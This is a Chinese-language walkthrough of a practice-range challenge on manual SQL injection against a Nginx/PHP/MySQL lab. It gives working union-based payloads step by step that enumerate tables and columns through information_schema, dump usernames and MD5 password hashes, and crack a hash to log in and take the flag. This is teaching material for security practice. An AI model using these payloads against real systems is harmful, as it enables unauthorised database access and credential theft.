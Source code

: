 # SQL手工注入漏洞测试(MySQL数据库)

+++

## 原题地址

<https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe>



#### 背景介绍                                

安全工程师"墨者"最近在练习SQL手工注入漏洞，自己刚搭建好一个靶场环境Nginx+PHP+MySQL，PHP代码对客户端提交的参数未做任何过滤。尽情的练习SQL手工注入吧。



## 题解

首先打开靶场环境，在登录框尝试输入sql语句，发现并没有什么用，突然发现登录框下有滚动通知框

![img](file:///C:\Users\Yee\AppData\Roaming\Tencent\Users\1679880584\QQ\WinTemp\RichOle\7XENSHC~J%NR3DT84BZH35R.png)

点进去又是一个页面：

![image-20200802224529301](C:\Users\Yee\AppData\Roaming\Typora\typora-user-images\image-20200802224529301.png)

### 第一步：

通过修改参数找到切入点

~~~
http://219.153.49.228:47744/new_list.php?id=1

(1) //后面加单引号'页面出现异常
http://219.153.49.228:47744/new_list.php?id=1'

(2)//后面加and 1=1 页面正常，后面加 and 1=2 页面异常
http://219.153.49.228:47744/new_list.php?id=1 and 1=1

http://219.153.49.228:47744/new_list.php?id=1 and 1=2

(3)//修改参数值，1改为0，页面异常
http://219.153.49.228:47744/new_list.php?id=0


注意 ：
上面三种方法中的任意一种得到的结果都只能说明此处可能存在注入点，而不是一定存在注入点！！！！！！！

## 第一种加单引号'：即使页面出现异常，这并不代表这个地方一定存在注入点。
   为什么不能一定，打个比方：
   编程人员检测到了你的单引号或者其他非法字符，给你跳转了页面（页面跳转与原页面确实不同，也算页面异常），这就不代表你是注入	      了，而是编程人员有意防范了。
##  第二种and 1=1 和 and 1=2 and 1=1 这样的检测方法可能就网页不做任何过滤或者限制的时候能稍微判断下

## 第三种是参数值可控


~~~

> 很有必要深刻理解下sql注入
>
> + SQL注入：攻击者通过构造不同的**SQL语句**来**实现对数据库的操作（即与数据库产生交互）**；
>
>   通过概念我们应该得到：***判断注入至少得执行一条sql语句才算有注入***，**你得保证能执行类似select ,version等等之类的命令才算是存在注入点**，那些加了单引号，运用了and 1=1/1=2 使页面产生异常的都不能算一定存在注入点，这个只是可能存在注入，只有当执行了sql语句才算有注入。所以我们还需继续往下判断。这个时候需要<u>判断出字段数</u>，<u>找回显点</u>（这个时候联合了union加了条select语句），如果有回显，此时就能确定是存在sql注入（因为有回显就说明执行了union后的select语句，即执行了一条sql语句）。找到回显点后，我们就应该继续去找库名，表名，列名，最后得到用户名，密码等我们想到的东西。
>
> + 注意:
>
>   + 判断字段数时，我们有两种方法：一种是利用order by语句，虽然利用他的过程中会有页面前后异常的情况出现，但单单通过order by使页面异常就得出存在注入点是不正确的，因为order by不是一条完整的sql语句。
>
>     第二种方法是利用union语句在后面加select 1,(2,3,4....)来判断，这种方法也有页面异常的情况出现，但这种异常是语法错误导致的，因为union语句前后的字段数必须完全相等，当前面字段数为4，后面union select 1一定会报错（因为后面字段数为1，与前面4不相等）
>
>   + 在判断回显点时，如果页面没有出现回显，就不能确定就是否一定存在注入，所以此时可以考虑下盲注，然后可以通过基于时间的盲注或者布尔的盲注来判断是不是存在注入。



### 第二步：

使用 order by 排序 确定当前操作的数据库表中的字段数

~~~
http://219.153.49.228:47744/new_list.php?id=1 order by 1  //页面正常
http://219.153.49.228:47744/new_list.php?id=1 order by 2  //页面正常
http://219.153.49.228:47744/new_list.php?id=1 order by 3  //页面正常
http://219.153.49.228:47744/new_list.php?id=1 order by 4  //页面正常
http://219.153.49.228:47744/new_list.php?id=1 order by 5  //页面异常

所以得出字段数为4
~~~

### 第三步：

通过<u>***让页面出错 加上联合查询的方式***</u>寻找回显点

~~~
http://219.153.49.228:47744/new_list.php?id=0 union select 1,2,3,4
//让id=0是为了让页面出错
//页面出现了2，3，说明第二，三字段处是回显点
~~~

![img](file:///C:\Users\Yee\Documents\Tencent Files\1679880584\Image\C2C\Image2\ZWAH@3Y%T{OMVNO66_8}[34.png)

### 第四步：

利用回显点查看数据库版本和数据库名

~~~
http://219.153.49.228:47744/new_list.php?id=0 union select 1,version(),database(),4

//发现版本在5.0之上，所以有information_schema数据库
~~~

![image-20200802235227991](C:\Users\Yee\AppData\Roaming\Typora\typora-user-images\image-20200802235227991.png)

### 第五步：

查看表名

~~~
http://219.153.49.228:47744/new_list.php?id=0 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup'

//获取表名StormGroup_member和notice
~~~

![image-20200802235633251](C:\Users\Yee\AppData\Roaming\Typora\typora-user-images\image-20200802235633251.png)

### 第六步：

查看字段名

~~~
http://219.153.49.228:47744/new_list.php?id=0 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='StormGroup_member' 

//获取字段名id,name,password,status
~~~

![image-20200802235859661](C:\Users\Yee\AppData\Roaming\Typora\typora-user-images\image-20200802235859661.png)



### 第七步：

查询账号和密码

~~~
http://219.153.49.228:47744/new_list.php?id=0 union select 1,group_concat(name),group_concat(password),4 from StormGroup_member

//获取登录用户名及密码

mozhe ，356f589a7df439f6f744ff19bb8092c0

mozhe ，72a23003e129f68e665c3ccb796cab84

注意：mozhe 是账号，一共两个密码，只有一个是真的。
~~~

![image-20200803000254601](C:\Users\Yee\AppData\Roaming\Typora\typora-user-images\image-20200803000254601.png)

### 第八步：

百度使用MD5解密，获得密码。

![image-20200803000630792](C:\Users\Yee\AppData\Roaming\Typora\typora-user-images\image-20200803000630792.png)

![image-20200803000642005](C:\Users\Yee\AppData\Roaming\Typora\typora-user-images\image-20200803000642005.png)



### 第九步：

登录账号密码，进入后下方很显眼的位置获得KEY。

![img](file:///C:\Users\Yee\Documents\Tencent Files\1679880584\Image\C2C\Image2\_BO934~B}{1JK[E`{5D6Q8R.png)